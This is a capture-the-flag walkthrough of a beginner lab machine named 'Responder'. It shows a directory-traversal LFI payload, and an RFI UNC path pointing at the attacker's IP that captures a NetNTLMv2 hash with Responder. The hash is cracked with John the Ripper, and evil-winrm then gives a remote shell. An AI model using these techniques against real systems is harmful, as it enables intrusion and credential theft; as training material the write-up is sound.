 This is the responder ctf from tier 1 starting point and it's difficulty is very easy.

task1:We try visiting the web service using the ip address but are redirected  to another domain. which is "unika.htb".
![alt text](images/responder_1.png)

task 2: On using curl -I we can see info about the as X-powered by: php
![alt text](images/responder_2.png)

Now when we try to open the url in the browser we get something like this...
![alt text](images/responder_6.png)
This happens because of virtual hosting. The connected server may be hosting multiple websites that need to be accessed using their correct hostname.

By default, when we access a website using an IP address, our HTTP request does not include the expected hostname in the Host header. Since the hostname (unika.htb) isn't available in our /etc/hosts file or any nearby DNS server, the server doesn't know which website to serve, leading to redirection or an error.

To fix this, we manually add an entry in /etc/hosts specifying that requests to that IP should be associated with "unika.htb". This ensures that when a request is sent to the server, it includes the correct Host header (unika.htb), allowing us to connect to the intended website.

So, first add the host name in the file.
use nano /etc/hosts to open the file,
![alt text](images/responder_4.png)

Now enter the host name into it.
![alt text](images/responder_5.png)

On reloading the site now we get...
![alt text](images/responder_3.png)

We use the page URL parameter to load different language versions of the webpage (task 3).
Just add ?page=german.html to the URL

![alt text](images/responder_7.png)
and now we get the page in German

![alt text](images/responder_8.png)

task 4: the option which exploits a LFI(Local File Include) vulnerability is the third option -> "../../../../../../../../windows/system32/drivers/etc/hosts"
As this option tries to traverse backwards and then traverse to a system file "hosts".
![alt text](images/responder_9.png)

task 5: "//10.10.14.6/somefile" is a RFI (remote file inclusion) vulnerability. This allows us to load some file into the server file system. Such files could be malicious scripts which would cause harm to the server.

task 6: NTLM is New Technology LAN Manager, it is a protocol that authenticates users and computers on a network.

task 7:
Responder uses the -I flag to specify network interface.

task 8:
The tool is John the ripper. We use this to crack passwords.

task 9:
First we get the ip using 
![alt text](images/responder_10.png)
We then run our responder tool
![alt text](images/responder_12.png)
now we use this ip in the URL http://unika.htb/?page=//< ip >>/somefile
![alt text](images/responder_11.png)
When we return to the terminal running responder we see...
![alt text](images/responder_13.png)
NetNTLMv hash is captured.Save that hash to a file.
![alt text](images/responder_14.png)

Now we need to crack the hash for which we use John the ripper.
![alt text](images/responder_15.png)
We use the rockyou.txt file which containts commonly used passwords.
Hence we got the admin password as badminton.

task10: By a nmap scan we find the port running tcp
![alt text](images/responder_16.png)

To access the windows machine(server) remotely we use evil-winrm which helps to access it via window remote management (winrm). It provides a remote shell access to the windows machine.
![alt text](images/responder_17.png)
Now we navigate through the folders searching for flag.txt
We will find it in user/mike/Dektop
use "type flag.txt" to get the flag content.
![alt text](images/responder_18.png)